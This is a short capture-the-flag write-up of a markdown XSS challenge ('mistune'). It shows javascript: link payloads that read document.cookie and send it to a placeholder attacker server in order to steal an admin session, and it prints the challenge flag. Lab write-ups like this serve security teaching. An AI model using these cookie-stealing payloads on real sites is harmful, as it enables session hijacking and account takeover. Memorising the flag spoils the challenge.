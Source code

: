 # Writeup

### Challenge available at `https://mistune.flatearth.fluxfingers.net/`

# Description:
 Try to steal admin cookie. Admin will click on ```<a>``` tag. This challenge has XSS vulnerability by which you can use it to steal admin cookie.

# Test:

After searching for a while i found this maybe useful ```<javascript:alert('xss')>```, and the result:
![XSS-Test](https://github.com/quanght55/CTFWriteups/blob/master/hackiu/mistune/images/mistune-test-xss.png)

Then i try ```<javascript:alert(document.cookie)>```, the result:
![Cookie-Test](https://github.com/quanght55/CTFWriteups/blob/master/hackiu/mistune/images/mistune-test-cookie.png)

# Exploit:

After testing, i will try to get current session to my server before send script to admin
```<javascript:document.location='your/server/here/cookie.php?cookie='+document.cookie>``` then i receive this:
![Cookie-to-server](https://github.com/quanght55/CTFWriteups/blob/master/hackiu/mistune/images/mistune-get-cookie-test.png)
Now we are ready to steal admin cookie
```<javascript:document.location='your/server/here/cookie.php?cookie='+document.cookie>```
And #BINGO
![Admin-cookie](https://github.com/quanght55/CTFWriteups/blob/master/hackiu/mistune/images/mistune-admin-cookie.png)
# flag{92da883eb1df9d1287ff25f1a1099f29}
